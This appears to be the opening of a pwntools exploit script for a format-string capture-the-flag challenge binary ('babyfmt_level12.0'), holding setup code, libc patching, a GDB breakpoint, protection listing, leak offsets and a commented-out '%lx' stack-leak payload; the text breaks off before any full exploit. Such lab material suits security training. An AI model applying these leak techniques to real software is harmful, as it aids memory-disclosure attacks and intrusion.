 ```python
from pwn import *
import subprocess, re
from fmtstr_nodollar import FmtStrIso

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or './babyfmt_level12.0')
exe.log_level = 'debug'

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR

# Use the specified remote libc version unless explicitly told to use the
# local system version with the `LOCAL_LIBC` argument.
# ./exploit.py LOCAL LOCAL_LIBC
if args.LOCAL_LIBC:
    libc = exe.libc
else:
    library_path = libcdb.download_libraries('./libc.so.6')
    if library_path:
        exe = context.binary = ELF.patch_custom_libraries(exe.path, library_path)
        libc = exe.libc
    else:
        libc = ELF('./libc.so.6')

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv,*a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
brva 0x17b2
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Full RELRO
# Stack:      Canary found
# NX:         NX enabled
# PIE:        PIE enabled
# SHSTK:      Enabled
# IBT:        Enabled
# Stripped:   No

io = start()

#### Leak Part ####

### offsets ###
libc_start_main_offset  = 0x24083
main_406_offset         = 0x1949

#payload = flat('a'+'%lx|'*63+'\x00', # e0d8
#               'AAAAAAAA')
```
